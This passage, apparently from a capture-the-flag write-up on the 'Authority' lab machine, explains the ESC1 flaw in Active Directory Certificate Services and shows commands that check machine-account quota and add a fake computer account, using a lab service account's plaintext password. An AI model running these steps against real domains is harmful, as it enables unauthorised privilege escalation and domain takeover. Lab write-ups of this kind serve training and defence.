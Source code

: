## ESC1

ESC1 is a vulnerability that allows unprivileged users to enroll and request a certificate on behalf of any domain object specified by the user. In [this post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/) we see that templates that are vulnerable to ESC1 have the following configuration :

- Client Authentication: True
- Enabled: True
- Enrollee Supplies Subject: True
- Requires Management Approval: False
- Authorized Signatures Required: 0

It the same for the template **`CorpVPN`**.

 **`svc_ldap`** is authorized to request a certificate using the vulnerable template. 

![image.png](image%2016.png)

First I check if the user can create a computer account. The **`MachineAccountQuota`** value is 10 so it’s good. Our user can create a computer account

```bash
nxc ldap 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -M maq
```

![image.png](image%2017.png)

I create a fake computer.

```bash
impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'fake' -computer-pass 'Zerodol@1234' -method LDAPS -dc-ip 10.10.11.222
```

![image.png](image%2018.png)
